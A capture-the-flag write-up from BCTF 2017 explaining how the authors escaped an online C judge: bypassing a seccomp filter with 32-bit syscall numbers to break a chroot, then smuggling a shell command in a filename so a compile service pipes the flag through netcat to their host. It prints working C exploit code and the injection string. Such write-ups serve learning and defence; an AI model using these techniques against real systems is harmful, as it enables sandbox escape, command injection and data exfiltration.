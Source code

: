 ```yaml
---
title: BCTF 2017 BOJ
authors: Toshi Piazza
date: 2017-04-19
categories: binary-exploitation
---
```


This weekend we played in BCTF, though we took it a little easy in preparation for
upcoming CTFs. However, we were able to solve a challenge with only one other solve, so we
decided to write up our progress on it. It essentially boiled down to a sandbox escape.

### Escaping the First Sandbox

When we first go to the link in the problem description, we see a web form which
presumably compiles and runs C code which we submit. Initially, it does not seem like we
can get any output from the server other than "Compilation Error" or "Wrong Answer."
However, it does not seem that there are many security restrictions on the binary; initial
tests show that we can’t execve, but we can at least open a socket to create a writeback.
First, we attempt to learn a bit more about our environment. In particular, we write our
uid to our connect back. It seems we’re running as root! Let’s get a directory structure
listing:

```
/etc/{group,passwd}
/usr/sbin/chroot
/usr/bin/{whoami,id}
/lib64/ld-linux-x86-64.so.2
/root/scf.so
/root/1492329438123677.c.bin
/lib/x86_64-linux-gnu/(lots of shared libs)
/bin/{cp,mkdir,chmod,bash,cat,sh,ls}
```

At this point, we’re interested by a few things related to the directory structure; first,
there’s no flag!? No sweat, we’re probably in a chroot (the flood of messages on IRC from
people asking where the flag is confirms this theory). More alarming perhaps is the scf.so
file that we see in the same directory as the file that was compiled for us. We dump it to
our writeback, and immediately disassemble it.

Initially, it’s apparent that this shared object file is meant to be used as an
`LD_PRELOAD`; normal shared object files do not have a `__libc_start_main`. When we look
deeper into this method, we notice immediately that it dlopen’s libc.so.6, and then pulls
the real `__libc_start_main` for later. Then, it calls `prctl` in order to presumably
construct some sort of impromptu seccomp filter. The call to prctl actually installs a
Berkeley Packet Filter, as shown below. Upon disassembling it, we see that it blocks
`execve`, `fork`, `ptrace`, `clone`, `chroot`, `pivot_root`, `process_vm_readv`, and
`process_vm_writev`.  Finally, it calls the correct `__libc_start_main`, which eventually
finds its way into our main function.

```
LD.W  ABS(0x4)
JEQ 3221225534
RET 0x0
LD.W  ABS(0x0)
JEQ !59
RET 0x0
JEQ !57
RET 0x0
JEQ !101
RET 0x0
JEQ !56
RET 0x0
JEQ !161
RET 0x0
JEQ !155
RET 0x0
JEQ !310
RET 0x0
JEQ !311
RET 0x0
RET 0x7fff0000
```

Clearly, our binary is being run with the given `__libc_start_main` via `LD_PRELOAD`. We
also stipulate that we’re operating under a chroot! Naturally, we’d like to break out of
the chroot. Normally, it’d be trivial to break out; since we’re root, we could simply
create a new chroot, and use that to pivot out of the original chroot. However, there is a
seccomp filter installed over chroot and friends, so maybe we can’t use the same trick.

More [research](https://gist.github.com/thejh/c5b670a816bbb9791a6d) shows that this Berkley Packet Filter is not in fact
bulletproof; it checks against the 64-bit syscalls, but fails to filter out the 32-bit
variants, which we can access by or’ing the original syscall with 0x40000000. To test out
this theory:

```c
printf("chroot\n");
syscall(0x40000000 | SYS_chroot, ".foo");
printf("success\n");
```

We see the success statement in our connect-back, so our program was not killed. This
means that we successfully performed the chroot (barring return values). This means, we
can escape the chroot by using the normal sandbox escape, but with the modified syscall.

```c
void change_root(void)
{
    mkdir(".42", 0755);
    syscall(SYS_chroot | 0x40000000, ".42");
    chdir(".42");
    syscall(SYS_chroot | 0x40000000,
            "../../../../../../../../../../../"
            "../../../../../../../../../../../");
}
```

Now, when we dump the filesystem from the root directory, we see an entire docker image
with some interesting files. Specifically, we see

```
/flag
/home/ctf/oj/sandbox/cr
/home/ctf/oj/sandbox/sandbox
/.dockerenv
```

First, we go straight for the flag; however, no matter how we try, we cannot seem to open
the flag! It seems we do not have the proper permissions to open it, but presumably we’re
root. What gives?

### Escaping the Second Sandbox

We dump the two binaries, `cr` and `sandbox` to reveal a little more about what’s going on
here. The `cr` binary seems to be servicing files in a busy loop; as source files are
dropped by the main service (specifically, in `/home/ctf/oj/src`), it compiles the files
with gcc and then proceeds to run the sandbox binary with the path to the elf that was
just compiled. Overall, the `cr` binary is not quite so interesting, as it doesn’t explain
why we don’t have permission to open the flag.

User namespaces effect the majority of the sandboxing done by the second binary, aptly
named sandbox. In particular, it writes `0 <uid> 1` to `/proc/<fd>/uid_map`; this
effectively gives us root within the namespace only, which is why we were able to break
out of the chroot. This also explains why we do not have the permissions to read the flag
file, owned by the host. Less interesting, the sandbox binary prepares the chroot, forks
and cleans up the chroot after our program has exited or timed out.

After all that, we still are no closer to reading the flag. However, it’s interesting to
note that `cr` is running as a "service," effectively. It has effective permissions of the
host, and presumably the flag natively exists in the host. So, we aim to trigger a
vulnerability in `cr`; noting that `cr` compiles our code, effectively by passing the
result of `sprintf(buffer, "gcc %s -o %s", source, binary)` directly to `system`, we drop
a file in `/home/ctf/oj/src` which breaks out of the gcc command (i.e. with a semicolon).

When we execute the following code, we end up with cr executing the following command:
`gcc /home/ctf/oj/src/a;cat ???g | nc <redacted> 8000; garbage`, which sends the flag back
to our connect-back, as intended. Note that it’s most likely sheer luck that `cr` is
executing in the root directory, so the shell expansion works as expected. (We spent a few
hours wondering why "cat /flag" wasn’t working, only to remember you can’t have a '/' in
file names ;P)

```c
int main(void)
{   /* break out of the chroot */
    mkdir(".42", 0755);
    syscall(SYS_chroot | 0x40000000, ".42");
    chdir(".42");
    syscall(SYS_chroot | 0x40000000,
            "../../../../../../../../../../../"
            "../../../../../../../../../../../");
    /* fool cr into sending us the flag file */
    fopen("/home/ctf/oj/src/a;cat ???g| nc <redacted> 8000;", "ab+");
    return 0;
}
// flag: bctf{Y0u_4r3_7h3_exp0r7_0f_s4nd60x_6yp4551ng}
```
